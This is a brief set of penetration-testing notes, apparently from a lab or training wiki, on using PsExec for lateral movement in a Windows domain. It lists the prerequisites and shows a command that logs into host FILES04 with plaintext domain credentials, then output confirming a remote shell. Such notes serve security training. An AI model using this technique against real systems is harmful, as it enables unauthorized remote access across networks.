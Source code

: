 ```yaml
---
description: PsExec is a very versatile tool that is part of the SysInternals Suite.
---
```


# PsExec

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite" %}



## Prerequisites

In order to use PsExec for lateral movement the following conditions must be met:

* SysInternals Tools Installed on System.
* The user is apart of the Local Administrator group.
* _ADMIN$_ share must be available and File and Printer Sharing has to be turned on.



### Lateral Movement

```powershell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

